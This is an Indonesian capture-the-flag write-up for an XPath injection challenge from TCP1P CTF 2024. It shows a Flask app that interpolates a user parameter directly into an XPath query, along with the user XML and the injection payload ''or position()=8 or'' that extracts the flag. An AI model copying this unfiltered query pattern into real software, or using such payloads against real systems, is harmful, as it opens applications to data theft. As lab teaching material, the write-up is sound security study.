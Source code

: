 #TCP1P CTF Special Ramadhan 2024

#Desc
> Maaf, aku tidak begitu mengingat deskripsi soal :(
`[chall.zip]`

## About the Challenge
Given 1 file yaitu `[chall.zip]`

## How to solve?
Hmm, kita coba jalankan dulu
![img1](img/1.png)

cek source nya,
```
from flask import Flask, request, render_template
from lxml import etree

app = Flask(__name__)

# Load XML data
tree = etree.parse('users.xml')
root = tree.getroot()


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/query', methods=['GET'])
def query():
    name = request.args.get('name', '')
    xpath_query = f"/users/user[username='{name}']"
    result = root.xpath(xpath_query)

    if len(result) > 0:
        return f"User {etree.tostring(result[0], encoding=str)} found!"
    else:
        return "No matching user found."

if __name__ == '__main__':
    app.run(debug=True)
```
# users.yaml
```                                                                                                                                                                        
<users>
    <user>
        <username>John</username>
    </user>
    <user>
        <username>Alice</username>
    </user>
    <user>
        <username>Bob</username>
    </user>
    <user>
        <username>Charlie</username>
    </user>
    <user>
        <username>Eve</username>
    </user>
    <user>
        <username>Frank</username>
    </user>
    <user>
        <username>Grace</username>
    </user>
    <user>
        <username>TCP1P{f4ke_fl4g_d0nt_subm1t}</username>
    </user>
    <user>
        <username>Isabel</username>
    </user>
    <user>
        <username>Jack</username>
    </user>
</users>
```

Yap benar, query string pada argumen name langsung menjadi input dari username tanpa filter apapun, itu adalah vulnerablenya. 
Kita coba untuk xpath injection, kenapa? 
- karena input dimasukkan dalam path `/.../.../...` 
- tidak ada pembungkus func execute `exec()` atau `eval()` pada wadah dari input
- lalu kita response akan selalu menampikan username pada row tertentu artinya kita harus mengubah arah dari arah yang ditetapkan menjadi row ke (flag)
Sehingga ini cara identifikasi saya dalam menjudge xpath injection tecnique.

Jujur aku mencari payload membutuhkan beberapa waktu, dan tidak sesimple yang seperti pada tulisan ini, tetapi akhirnya aku menemukan payload yang tepat. [referensi](https://snyk.io/blog/prevent-xpath-injection-attacks)

![img2](img/2.png)

kalian bisa salin disini 
```
'or position()=8 or'
```

![img3](img/3.png)

Alhamdulillah, kita dapatkan flagnya

```
TCP1P{aku_bisa_simple_xpath_injection_yey!}
```

